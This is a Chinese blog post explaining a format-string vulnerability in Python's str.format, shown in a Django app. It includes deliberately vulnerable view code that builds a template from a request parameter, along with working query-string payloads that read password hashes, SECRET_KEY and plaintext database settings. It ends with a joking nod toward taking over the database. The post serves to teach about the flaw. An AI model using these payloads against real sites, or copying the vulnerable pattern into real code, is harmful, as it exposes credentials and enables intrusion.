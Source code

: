 # python format格式化函数漏洞

突然提这个漏洞是提交代码到公司服务器后，组长review我的代码时提的，说format其实不安全，百分号形式虽然丑，但还是尽量用百分号形式写，然后就有了下面研究，内容主要参考：

[Python 格式化字符串漏洞（Django为例）](https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html)

## python常见格式化字符串

python中比较常见的格式化字符串方式有：

1.百分号形式进行字符串格式化

```python
In [1]: 'Hello, %s, I love %s'%('ayuliao','python')
Out[1]: 'Hello, ayuliao, I love python'
```

2.使用format函数进行字符串格式化

```python
In [4]: '{name}'.format(name='ayuliao') # 普通用法
Out[4]: 'ayuliao'

In [5]: '{name!r}'.format(name='ayuliao') # 等同于 repr(name)
Out[5]: "'ayuliao'"

In [6]: '{num:0.2f}'.format(num=2.3333) # 保留后两位小数
Out[6]: '2.33'

In [7]: 'int: {0:d}; hex: {0:#x}; oct: {0:#o}; bin: {0:#b}'.format(42) # 转换进制
   ...:
Out[7]: 'int: 42; hex: 0x2a; oct: 0o52; bin: 0b101010

In [9]: '{arr[2]}'.format(arr=[1,2,3]) # 获取对象属性
Out[9]: '3'
```

3.python3.6以上可以使用 f 关键字进行格式化

f关键字有获取当前 context 下变量的能力

```python
In [10]: a = 'Hello'

In [11]: f'{a} world'
Out[11]: 'Hello world'
```

## format造成的安全隐患

重点聊聊format()方法会带来的问题，我复现一下参考文章中的例子

在Django项目中使用format()函数，Django是Python Web开发的一款知名框架

创建一个Django项目，并在该项目中创建一个应用，在该应用的views.py上创建使用format()函数的危险方法

```python
#获得登录用户的email
def hackview(requests, *args, **kwargs):
    u = requests.GET.get('email')
    template = 'Hello {user}, This is your email:' + requests.GET.get('email')
    return HttpResponse(template.format(user=requests.user))
```

hackview()方法的作用非常简单，就是获取登录用户的email，在urls.py上注册一个该方法对应的url路径

```python
urlpatterns = [
    url(r'^hackview/', hackview),
    ...
```

正常的访问：

![format_1](http://p6un02lk4.bkt.clouddn.com/format_1.png)

但是如果用户登录，我们完成可以利用这个方法获得用户的密码，只需稍微修改一下请求url

![format_2](http://p6un02lk4.bkt.clouddn.com/format_2.png)

从图中可以看出，我们获得了当前登录用户的用户名、用户在数据库中的ID、进过哈希处理后的用户密码

这个请求在Django中发生了什么？

首先user是hackview()方法上下文中仅有的一个变量，在hackview()方法中，使用了format(user=request.user)，也就是将发起请求的当前用户放到字符串中，在Django中requests.user就是当前对象，如果不做任何处理，打印时Django就会输出当前用户的username

但我们没有正常请求这个链接，通过{user.pk}|{user.username}|{user.password}作为参数请求链接，相当于打印字符变为

```
Hello {user}, This is your email:{user.pk}|{user.username}|{user.password}
```

那么经过format处理，当然就将requests.user中的相关参数都打印出来了

如果编写web项目的人毫无安全意识，出现下面的方法

```python
from django.shortcuts import  get_object_or_404
from django.contrib.auth.models import User

def hackview2(requests, *args, **kwargs):
    user = get_object_or_404(User, pk = requests.GET.get('uid'))
    template = 'Hello {user}\'s, This is your email:' + requests.GET.get('email')
    return HttpResponse(template.format(user=user))
```

我们就可以获得任何用户的用户名和进过哈希处理后的密码了

![format_3](http://p6un02lk4.bkt.clouddn.com/format_3.png)

通过传递uid，从而获得数据库中相应id用户的信息

但是这种“骚”写法现实中还是比较少有的

## 提取高敏信息

如果真的遇到了hackview()方法中的写法，光获得用户哈希后的密码其实没啥意思，感觉也没啥，毕竟密码是经过加盐哈希过的，没了就没了，但问题比想象的严重。

我们可以利用hackview()方法获得Web项目的所有配置信息，包括，项目秘钥，数据库地址、用户名和明文密码。

Django是个庞大繁杂的工具，它默认就我们提供了缓存、ORM、管理后台、反爬限制等功能，这可以让我们快速开发一个web系统，但这也称为了它的弱点，越庞大的项目，存在bug的可能性越大

思路：通过挖掘Django自带应用，看看这些应用中有无导入Django配置文件

Django自带的后台就导入了项目的配置文件

![format_4](http://p6un02lk4.bkt.clouddn.com/format_4.png)

或者进入debug模式，慢慢找，可以发现 requests.user._meta.app_config.module.admin.settings下有我们想要的内容

![format_5](http://p6un02lk4.bkt.clouddn.com/format_5.png)

![format_6](http://p6un02lk4.bkt.clouddn.com/format_6.png)

将我们找到这些路径作为请求参数，请求hackview()方法对应的接口，就可以获得该web项目的敏感信息了

有3个具体的实例

获取web项目的秘钥

```
http://localhost:8000/hackview/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

返回内容：

```
Hello AnonymousUser, This is your email:qxzxiv(6v4v+#^4$n^kwmw!)r5_=aq(v)o&sj@8p2&)j=4-8h$
```



获取该web项目数据库的配置

```
http://localhost:8000/hackview/?email={user.groups.model._meta.app_config.module.admin.settings.DATABASES}
```

![format_7](http://p6un02lk4.bkt.clouddn.com/format_7.png)

很负责的告诉你，全是明文，接下来怎么骚不用我教了吧，远程连上去，将它提了

## 结尾

组长你是怎么知道这个的?

他的眼神突然变得深邃，似乎想起了很远很远的事，想起了以前的兄弟，想起了以前的爱人，想起...，想到情深处，他望着远方的天空，内心的忧伤弥漫而出，天空似乎也变得阴沉，默默的他吸了口手中快烧到头的烟，用半沙哑的声音说，老子之前的项目就因为这个被脱裤了。

en......莫名的开心

生活愉快 :-D

